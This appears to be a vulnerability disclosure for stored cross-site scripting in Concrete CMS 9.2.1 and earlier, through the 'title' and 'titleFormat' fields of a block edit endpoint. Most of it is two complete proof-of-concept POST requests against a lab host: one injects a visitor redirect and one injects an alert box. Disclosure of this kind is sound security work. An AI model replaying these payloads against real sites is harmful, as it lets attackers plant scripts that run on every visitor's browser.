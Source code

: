 BUG_Author:
LJWIIE

Affected version:
Concrete CMS

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks by combining the "titleFormat" and "title" parameters within the "Edit Feature Link" function. This combination may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'titleFormat' and 'title' together contain a Stored Cross-Site Scripting (XSS) vulnerability.

[Redirect to Google official website]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695469065:5aa63bbe62ffcb4df09a6763873c46be&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1821
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoglzy1CW1rAJNDGp
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=ec85avj4ojkan1mrh5g6dhrn76; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="title"

window.onload = function() {window.location.href = 'https://www.google.com';};
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="titleFormat"

script
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryoglzy1CW1rAJNDGp--
```

![image](https://github.com/IIE-Safety/title_And_titleFormat/assets/65028436/926b6fa4-370b-4532-8b0b-45d3971c1fd1)

After editing and saving, anyone who visits this page will be forced to go to the Google website.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[Display alert window]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695469065:5aa63bbe62ffcb4df09a6763873c46be&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1821
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoglzy1CW1rAJNDGp
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=ec85avj4ojkan1mrh5g6dhrn76; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="title"

alert("You have been hacked!")
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="titleFormat"

script
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>

------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryoglzy1CW1rAJNDGp
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryoglzy1CW1rAJNDGp--
```

![image](https://github.com/IIE-Safety/title_And_titleFormat/assets/65028436/dacf7c66-9329-4593-8f9c-91bd9ca0a335)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)

